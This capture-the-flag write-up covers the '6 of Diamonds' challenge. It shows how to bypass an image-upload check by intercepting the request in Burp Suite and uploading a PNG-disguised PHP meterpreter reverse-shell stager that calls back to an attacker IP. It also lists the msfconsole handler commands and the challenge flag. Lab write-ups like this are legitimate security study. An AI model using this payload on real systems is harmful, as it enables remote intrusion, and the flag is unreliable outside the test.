# 6 of Diamonds 
![6 of Diamonds](6_of_diamonds.png)

On port 8200 we find a gallery webpage with an upload feature. The uploader wants an image. Tried a bunch of different ideas involving embedding shellcode into pngs. Finally landed on caapturing the upload with Burpsuite and altering the request before forwarding it on.
```
Content-Disposition: form-data; name="file"; filename="evil.png"
Content-Type: image/png

PNG
/*<?php /**/ error_reporting(0); $ip = '172.15.41.116'; $port = 1234; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```

This method is based on [https://www.hackingarticles.in/multiple-ways-to-exploiting-put-method/](https://www.hackingarticles.in/multiple-ways-to-exploiting-put-method/)

Using Burp to intercept the upload of a good image. Send that to Repeater. Make adjustments until msfconsole shell. To set this up, on the ssh remote (use ip add to get ip address):
```
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost ...
set lport 1234
exploit
```
then navigate to the tainted png. This should spawn the shell. From there, navigate through any dir that looks interesting. Found ./157a7640-0fa4-11eb-adc1-0242ac120002/6_of_diamonds.png for the win.

FLAG:
```
e814d5882614d662d09425987a992dee
```
